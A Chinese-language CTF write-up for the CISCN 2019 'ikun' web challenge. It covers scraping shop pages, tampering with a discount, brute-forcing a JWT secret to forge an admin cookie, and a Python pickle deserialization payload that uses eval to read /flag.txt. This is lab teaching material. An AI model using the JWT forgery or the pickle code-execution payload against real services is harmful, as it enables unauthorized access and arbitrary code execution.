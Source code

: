 # IKUN
<font size=4>
docker地址

> https://github.com/CTFTraining/ciscn_2019_web_northern_china_day1_web2.git

打开题目，找到重点。

![](./image/ikun_1.png)

必须要求买到6级。翻了几页没找见六级的
	
	import requests
	
	url = "http://web44.buuoj.cn/"
	
	for i in range(1, 2000):
	    r = requests.get(url + "shop?page=" + str(i))
	
	    if r.text.find("lv6.png") != -1:
	        print(i)
	        break

使用这个脚本可以找到lv6在第181页。

购买之后到购物车里面，发现有个折扣，F12一下

![](./image/ikun_2.png)

将折扣改为很小的数字，然后结算，发现转到了/b1g_m4mber，并且显示没有权限。

![](./image/ikun_3.png)

查找cookie，发现有一个jwt的cookie。去官网解码

![](./image/ikun_4.png)

思路是将username改成admin，这时候要去爆破密钥，使用jwt-cracker工具

![](./image/ikun_5.png)

密钥为`1Kun`。将加密后的cookie保存后就可以访问刚才的界面。F12发现存在源码，下载下来。

![](./image/ikun_6.png)

下载源码后发现

    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)

存在反序列化。
使用如下脚本生成payload。

	import pickle
	import urllib
	
	class payload(object):
	    def __reduce__(self):
	       return (eval, ("open('/flag.txt','r').read()",))
	
	a = pickle.dumps(payload())
	print(a)
在刷新就可以看到flag。